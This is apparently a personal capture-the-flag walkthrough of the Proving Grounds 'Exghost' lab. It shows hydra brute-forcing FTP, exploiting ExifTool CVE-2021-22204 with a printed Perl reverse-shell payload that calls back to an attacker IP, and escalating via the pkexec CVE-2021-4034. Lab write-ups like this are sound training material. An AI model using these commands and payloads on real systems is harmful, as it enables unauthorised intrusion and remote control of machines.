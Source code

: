 # PG Practice: Exghost
https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-exghost-2e9a969ef711

`export IP=192.168.70.183`

### All failed so go with Bruteforce
`https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt`

```
hydra -t 20 -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P password.txt -vV $IP ftp
```
I know ridiculous `user:system`

### ftp
```
❯ ftp $IP
Connected to 192.168.70.183.
220 (vsFTPd 3.0.3)
Name (192.168.70.183:alvin): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
229 Entering Extended Passive Mode (|||43520|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
100% |***********************************************************************************************************************************************|   123 KiB  126.06 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:01 (105.24 KiB/s)
```

### wireshark to the packet capture
```
POST /exiftest.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572
Content-Length: 14806
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------169621313238602050593908562572
Content-Disposition: form-data; name="myFile"; filename="testme.jpg"           // <- myFile as the entry
Content-Type: image/jpeg
```
opening it with Wireshark to enumerate further. Filtering the HTTP packets, we see that someone uploaded an image to ip/exiftest.php and the upload was successful. We also can see the version of ExifTool running on the box.

Under `line-based text data` of the 200 response. File uploaded successfully :)<pre>ExifTool Version Number         : 12.23\n

### Let's try to upload a file
```
echo 'wqer 1234' > test01.txt

curl -F 'myFile=@test01.txt' -k http://192.168.70.183/exiftest.php
File not allowed.
```

### Exploit the exiftool by gooling its version
https://www.exploit-db.com/exploits/50911

```
❯ python3 exploit.py -s 192.168.49.70 7890

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(7890,inet_aton('192.168.49.70')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```
```
curl -F 'myFile=@image.jpg' -k http://192.168.70.183/exiftest.php
```

### Got the user.txt
##### linpeas
```
Vulnerable to CVE-2021-4034 # https://github.com/topics/cve-2021-4034

Vulnerable to CVE-2021-3560 # Not working, tried CVE-2021-3560-Polkit-Privilege-Esclation
```

###
There is no compiler installed on the machine. I cloned a few of the available exploits but any C code compiled on my system doesn’t seem to work on the target machine. Finding a python exploit for the same. And it works giving us a root shell. Refer: https://github.com/joeammond/CVE-2021-4034

# Sum up
Try python script when above issues happened
https://github.com/topics/cve-2021-4034

I found this one instead. https://github.com/A1vinSmith/CVE-2021-4034
